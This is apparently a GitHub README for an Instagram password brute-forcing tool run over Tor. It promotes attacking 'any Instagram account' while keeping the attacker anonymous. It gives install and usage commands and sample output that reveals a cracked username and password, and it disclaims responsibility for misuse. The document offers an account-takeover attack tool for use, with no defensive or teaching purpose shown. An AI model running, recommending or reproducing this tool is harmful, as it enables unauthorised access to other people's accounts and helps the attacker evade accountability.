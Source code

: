 # saminsta
we are not responsible for any misuse of this tool 
# Instagram Bruteforce

This program will brute force any Instagram account you send it its way. Just give it a target, a password list and a mode then press enter and forget about it. No need to worry about anonymity when using this program, its highest priority is your anonymity, it only attacks when your identity is hidden.
# Requirements

-   Python v3
-   Tor

# Install Dependencies

```
pip3 install -r requirements.txt
```

# Usage

```
python3 instagram.py <username> <wordlist> -m <mode>
```

# Run

```
[-] Wordlist: pass.lst
[-] Username: Samhr023
[-] Password: 272
[-] Complete: 45.51%
[-] Attempts: 228
[-] Browsers: 273
[-] Exists: True
```

### Stop

```
[-] Wordlist: pass.lst
[-] Username: Samhr023
[-] Password: Samhr123
[-] Complete: 62.67%
[-] Attempts: 314
[-] Browsers: 185
[-] Exists: True

[!] Password Found
[+] Username: Samhr023
[+] Password: Samhr123
```
